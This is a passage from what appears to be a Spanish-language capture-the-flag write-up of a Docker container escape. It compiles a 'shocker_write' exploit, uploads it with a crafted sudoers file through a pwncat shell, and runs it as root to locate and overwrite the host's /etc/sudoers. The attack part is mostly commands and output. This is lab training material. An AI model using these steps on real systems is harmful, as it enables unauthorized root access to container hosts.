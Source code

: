 ![Write-up Image](images/Screenshot_32.png)

Ahora compilamos el script `shocker_write.c`
```shell
$ gcc -Wall -std=c99 -O2 shocker_write.c -static -o shocker_write
```

Subimos tanto el `sudoers` como el binario `shocker_write` ya compilado
```shell
(local) pwncat$ upload sudoers /tmp/sudoers
/tmp/sudoers ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 778/778 bytes • ? • 0:00:00
[23:33:36] uploaded 778.00B in 0.68 seconds                                   upload.py:76
(local) pwncat$ upload shocker_write /tmp/shocker_write
/tmp/shocker_write ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 17.1/17.1 KB • ? • 0:00:00
[23:34:24] uploaded 17.06KiB in 0.59 seconds
```


```shell
(remote) root@c150397ccd63:/tmp# ./shocker_write /etc/sudoers sudoers
...
[*] Found bash_completion.d
[*] Found apt
[*] Found services
[*] Found udev
[*] Found ltrace.conf
[*] Found selinux
[*] Found multipath
[*] Found udisks2
[*] Found sensors3.conf
[*] Found sudoers
[+] Match: sudoers ino=393977
```